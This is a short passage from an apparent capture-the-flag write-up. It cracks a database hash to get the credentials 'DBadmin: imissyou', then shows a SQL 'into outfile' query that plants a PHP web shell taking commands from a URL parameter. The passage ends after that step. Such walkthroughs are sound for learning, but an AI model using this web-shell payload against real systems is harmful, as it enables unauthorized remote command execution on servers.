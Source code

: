 using [crackstation](https://crackstation.net/) I was able to crack that hash.

![](images/cracked.png)

`DBadmin: imissyou`

Using those credential I got in.

***

## User pwn

After some googling I found a way to get a reverse shell. In the `wcdws` table I added a sql query

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```

![](images/command.png)

